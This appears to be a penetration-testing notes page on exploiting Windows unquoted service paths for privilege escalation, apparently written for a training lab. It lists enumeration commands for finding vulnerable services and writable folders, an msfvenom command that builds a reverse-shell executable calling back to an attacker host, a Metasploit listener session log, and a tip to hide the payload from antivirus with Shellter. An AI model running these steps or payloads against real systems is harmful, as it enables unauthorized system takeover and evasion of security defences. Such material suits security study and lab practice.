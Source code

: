 # Unquoted Service Path

## **Finding Unquoted Service Path Vulnerabilities**

Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1. Being able to write to a folder on the path (icacls)
2. Being able to restart the service

If either of these conditions is not met, successful exploitation may not be possible. \


The command below will list services running on the target system. The result will also print out other information, such as the display name and path.&#x20;

`wmic service get name,displayname,pathname,startmode`

You can further check the binary path of this service using the command below:&#x20;

`sc qc unquotedsvc`

Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

`.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`

The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.



We now have found a folder we can write to. As this folder is also in the service's binary path, we know the service will try to run an executable with the name of the first word of the folder name.&#x20;



`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe`

```shell-session
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8899
lport => 8899
msf6 exploit(multi/handler) > set lhost 10.9.6.195
lhost => 10.9.6.195
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.195:8899
```

{% hint style="info" %}
use shellter to evade AV. Ensure that shellter is installed with Wine on Kali. The instructions can be found in the AV Evasion module if needed
{% endhint %}
